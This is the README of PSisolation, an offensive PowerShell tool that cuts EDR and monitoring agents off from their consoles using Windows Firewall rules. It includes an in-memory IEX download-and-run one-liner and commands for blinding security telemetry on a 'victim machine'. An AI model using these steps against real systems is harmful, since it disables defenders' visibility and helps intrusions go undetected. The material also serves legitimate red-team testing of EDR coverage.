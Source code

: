 # PSisolation

## Overview
PS-Isolation is a specialized tool designed to prevent EDR (Endpoint Detection and Response) and monitoring processes from communicating with their consoles. By leveraging Windows Defender Firewall rules and PowerShell automation, this script dynamically identifies and blocks network traffic for specific monitoring agents and processes. 

I also wrote this [article](https://blog.y00ga.lol/PERSO/PUBLISH/Article+perso/PSisolation%2C+in+Cyberspace+No+One+Can+Hear+You+Scream#New-NetFirewallRule) if you want to learn a bit more about it

## Key Features
- Automated Detection: Identifies EDR and monitoring tools running on the system based on predefined and customizable keywords.
- Dynamic Firewall Rules: Implements outbound traffic filtering for detected processes, preventing telemetry from reaching monitoring consoles.
- Customizable rule : Choose to block a specific processes.
- Stealth : Operates entirely in PowerShell, which you can import in memory without touching disk, ensuring minimal system footprint.
- Simple Cleanup: Quickly revert all custom rules and restore normal operations with a single command.

## Use Cases
- Isolate specific processes or tools to prevent them from reporting telemetry during engagements.
- Test EDR visibility and response.
- Enumerate potential exclusions on system without triggering alerts

## Important Notes
- Educational Purposes Only: This tool is intended for research, penetration testing engagements, and educational purposes        
- Requires Administrative Privileges to create rules

## Getting Started

- Import the script in memory

````
IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/y00ga-sec/PSisolation/refs/heads/main/PSisolation.ps1')
````

- Block outgoing traffic by running directly

````
Block-MonitoringProc
````
https://github.com/user-attachments/assets/a8b62fc7-5132-477b-9489-c569c41bcc78

- or a specific process you want with : 

````
Block-SpecificProcessTraffic -ProcessPath <executablefull path>
````

- When you're done, run this to remove all rules created by the tool :

````
Unblock-AllFilters
````

https://github.com/user-attachments/assets/a647de1e-9314-4d73-886c-ba8f4cbb7356

------
# But what if the target machine does not use Windows Defende Firewall ?

Well the script got you covered ! Logic is the following :

- If PSisolation detects the victim machine has Windows Firewall enabled --> Simple retrieves EDR services name and associated executable path and create outgoing blocking firewall rules
- Otherwise, PSisolation will :
   - Backup every rule on the machine in a temporary file
   - Create outgoing blocking firewall rules for EDRs
   - Enable Windows Defender Firewall so that the PSisolation blocking rules take effect and disable every rule to avoid blocking production traffic
   - Once you're done and run `Unblock-AllFilters`, the script will restore every rule/rule state from the temporary backup file (which will also delete PSisolation blocking rules)
   - Delete backup rules temporary
   - Restore Windows Defender Firewall to its previous state 
